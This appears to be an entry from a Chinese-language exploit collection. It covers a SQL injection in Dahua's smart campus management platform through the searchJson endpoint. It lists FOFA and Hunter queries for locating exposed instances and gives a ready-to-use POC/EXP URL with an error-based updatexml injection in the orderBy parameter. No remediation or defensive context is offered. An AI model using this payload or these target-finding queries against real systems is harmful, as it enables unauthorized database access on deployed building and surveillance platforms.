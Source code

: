 # 大华 智慧园区综合管理平台 searchJson SQL注入漏洞

## 网络测绘

fofa: app="dahua-智慧园区综合管理平台"

hunter: app.name="Dahua 大华 智慧园区管理平台"

## POC / EXP

```
/portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)--%22%7D/extend/%7B%7D
```